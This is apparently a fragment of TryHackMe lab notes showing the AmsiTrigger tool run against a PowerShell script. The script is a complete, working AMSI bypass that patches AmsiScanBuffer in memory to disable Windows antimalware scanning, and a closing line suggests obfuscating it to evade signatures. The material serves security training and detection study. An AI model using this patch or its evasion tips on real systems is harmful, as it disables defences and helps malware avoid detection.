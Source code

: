 - **AMSI Trigger Example**        

```
C:\Users\Tryhackme\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer');
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Signatures are highlighted in red; you can break these signatures by encoding, obfuscating, etc.
